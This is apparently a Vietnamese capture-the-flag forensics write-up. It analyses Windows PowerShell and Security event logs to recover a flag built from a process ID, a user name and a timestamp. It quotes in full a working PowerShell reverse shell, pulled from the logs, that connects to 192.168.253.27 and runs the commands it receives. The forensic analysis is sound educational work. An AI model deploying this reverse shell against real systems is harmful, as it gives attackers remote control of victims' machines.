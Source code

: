 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154222.png)

# Phân tích
Đề bài cho một thư mục bào gồm cái file log

Sử dụng `Event Viewer` để phân tích. Mở file `Microsoft-Windows-PowerShell%4Operational.evtx`, để xem các powershell đã thực thi. Thấy một đoạn script có vè khả nghi:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154731.png)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.253.27", 4953)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | ForEach-Object { 0 }
$sendbyte = "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name+(Get-Date).ToString())))))).Replace('-', '').ToLower())}"
$sendbyteBytes = [System.Text.Encoding]::ASCII.GetBytes($sendbyte)
$stream.Write($sendbyteBytes, 0, $sendbyteBytes.Length)
$stream.Flush()
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
    $sendbyte = ([Text.Encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```
Đọc qua đoạn script trên thì nó thực hiện như sau : 
- Lấy PID của tiến trình hiện tại: `Get-Process -Id $PID`
- Lấy tên của Domain và User: `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`
- Lấy thời gian lúc thực hiện script: `Get-Date`
- Sau đó băm MD5 những thứ lấy được và gửi cho ip `192.168.253.27` qua port `4953` bằng giao thức TCP

# Solved

## Lấy PID 
Để xem PID của tiến trình ta xem Event dưới dạng XML Details 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20155819.png)

Nhưng có vẻ như đã bị động tay khiến cho không thể xem được. Xem tiếp các event khác thì thấy vẫn xem được

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20162724.png)

Event này thực thi đoạn script sau:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20170831.png)

Ta thấy có cmd `& 'C:\Users\long\Desktop\revshell.ps1'` mà đây cũng là path của script band đầu 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20170855.png)

Nhận thấy 2 event chạy cách nhau 1s => đoạn script ban đầu được thực thi do câu lệnh `& 'C:\Users\long\Desktop\revshell.ps1'`  => 2 event nằm trong cùng một tiến trình => PID = 4144

# Lấy Domain và User

Sử dụng file `Security.evtx` để tìm user tạo tiến trình 4144

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20170123.png)

Ta thấy event tạo process có id là 0x1030 (4144) do user `long` tạo ra và domain là `KMA`

# Lấy thời gian :

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161236.png)

Time = `5/22/2023 5:09:58 PM`

# Lấy Flag

Chạy đoạn script:
```ps
echo "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(("4144"+"KMA\long"+"5/22/2023 5:09:58 PM")))))).Replace('-', '').ToLower())}"
```
Ta đươc flag:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20164119.png)
